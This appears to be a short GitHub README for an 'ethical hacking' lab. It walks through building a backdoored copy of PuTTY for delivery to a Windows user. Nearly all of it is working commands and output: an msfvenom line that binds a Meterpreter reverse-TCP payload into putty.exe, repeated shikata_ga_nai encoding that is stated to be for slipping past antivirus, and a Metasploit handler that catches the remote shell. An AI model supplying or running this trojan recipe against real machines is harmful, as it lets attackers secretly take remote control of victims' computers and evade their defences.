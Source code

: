 # Secu_03
### `Ethical hacking`
we are going to use a trapped file to send to a windows user.
`Lab: backdoor`

* Install putty<hr>
program for remote connections, 
download here <a href="https://www.chiark.greenend.org.uk/~sgtatham/putty/latest.html">https://www.chiark.greenend.org.uk/~sgtatham/putty/latest.html</a>
<hr>
we will link our putty.exe file to our backdoor.

```terminal
msfvenom -a x86 -x /home/samglish/Téléchargements/putty.exe -k -p windows/meterpreter/reverse_tcp lhost=your_Ip_adress lport=3232 -e x86/shikata_ga_nai -i 3 -b "\x00" -f exe -o hello.exe 
```
I explain to you
* msfvenom a metasploit module that will help us to :
<p>--plateform windows, create a backdoor for windows platform</p>
<p>x86/shikata_ga_nai -i 3 -b "\x00", the module that will help us encode our file so as not to be detected by the antivirus, we encoded it 3 times.</p>
<p>the output file will be hello.exe </p>

`output`
```terminal
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
Found 1 compatible encoders
Attempting to encode payload with 3 iterations of x86/shikata_ga_nai
x86/shikata_ga_nai succeeded with size 381 (iteration=0)
x86/shikata_ga_nai succeeded with size 408 (iteration=1)
x86/shikata_ga_nai succeeded with size 435 (iteration=2)
x86/shikata_ga_nai chosen with final size 435
Payload size: 435 bytes
Final size of exe file: 1889792 bytes
Saved as: hello.exe
```
let's check if it's the windows exectable.
```terminal
file hello.exe
```
output:
```output
hello.exe: PE32 executable (GUI) Intel 80386, for MS Windows
```
now we will head to metasploit.
```terminal
msfconsole
```
output:
```output
msf6 > use exploit/multi/handler
```
after
```terminal
[*] Using configured payload generic/shell_reverse_tcp
msf6 exploit(multi/handler) >set payload windows/meterpreter/reverse_tcp
```
output:
```output
payload => windows/meterpreter/reverse_tcp
```
```terminal
msf6 exploit(multi/handler) > set lhost adress_ip
```
```terminal
msf6 exploit(multi/handler) > set lport 3232
```
`now we launch exploit`
```terminal
msf6 exploit(multi/handler) > exploit
```
```terminal
[*] Started reverse TCP handler on 172.20.10.4:3232 
```
thanks